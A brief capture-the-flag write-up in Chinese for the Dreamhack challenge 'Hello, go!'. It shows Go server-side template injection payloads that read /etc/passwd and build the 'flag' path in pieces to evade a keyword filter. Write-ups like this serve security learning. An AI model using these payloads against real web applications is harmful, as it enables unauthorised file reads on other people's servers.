


# Hello, go!

[題目連結](https://dreamhack.io/wargame/challenges/1999)

先確認一下有沒有模板注入

```txt
/?name={{.}}
```

查了一下關於 go 的 ssti

[Exploring ways to exploit SSTI in Go Frameworks](https://payatu.com/blog/ssti-in-golang/)

在上面看到用 echo 的方式讀取 `/etc/passwd` 的內容

```txt
/?name={{ .File "/etc/passwd" }}
```

成功讀到 `/etc/passwd`



因為原始碼裡面有 name 不能包含 `flag` 的字串，所以試試用拼接的方式

```txt
/?name={{.File (print "/" "f" "l" "ag")}}
```

成功讀到 flag




